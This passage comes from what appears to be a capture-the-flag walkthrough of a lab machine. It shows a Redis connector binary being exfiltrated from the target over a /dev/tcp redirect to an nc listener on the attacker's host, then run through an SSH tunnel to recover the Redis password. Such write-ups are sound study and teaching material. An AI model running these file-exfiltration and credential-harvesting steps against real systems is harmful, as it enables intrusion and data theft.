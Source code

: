     config_file:/etc/redis/redis.conf
    io_threads_active:0
     <nil>



This looks like the result of the `info server` command. `redis-cli` is
on the box, however, if I try to connect, it's asking for auth:



    dan_smith@shared:~$ redis-cli 
    127.0.0.1:6379> info
    NOAUTH Authentication required.



#### Exfil

I'll start `nc -lnvp 445 > redis_connector_dev` on my host, and then
send the file via Bash:



    dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.6/445



The file arrives:



    oxdf@hacky$ nc -lnvp 445 > redis_connector_dev
    Listening on 0.0.0.0 445
    Connection received on 10.10.11.172 36236



### Get Password

#### Dynamically

If I run the binary on my system, it fails to connect:



    oxdf@hacky$ ./redis_connector_dev 
    [+] Logging to redis instance using password...

    INFO command result:
     dial tcp [::1]:6379: connect: connection refused



I'll disconnect my SSH session and reconnect with a tunnel from my local
6389 to Shared's using `-L 6379:localhost:6379`. Now on running again,
it works:



    oxdf@hacky$ ./redis_connector_dev 
    [+] Logging to redis instance using password...

    INFO command result:
    # Server
    redis_version:6.0.15
    redis_git_sha1:00000000
    ...[snip]...
